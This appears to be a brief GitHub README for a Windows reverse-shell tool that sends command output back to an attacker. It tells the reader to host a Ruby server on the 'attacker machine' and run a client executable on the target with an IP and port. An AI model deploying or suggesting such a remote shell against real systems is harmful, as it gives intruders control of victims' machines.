 # Reverse Shell With Getting Output From Windows

These are scripts/exes that can be used as a better reverse shell. It's basically a reverse shell that sends the output of the executions back to you which wouldn't be possible with netcat.




Host the shell_server.rb on the attacker machine and then use the shell_client.exe / shell_client.rb to connect to it by calling it with these arguments on the target.

```
.\shell_client.exe *IP* *PORT*
```
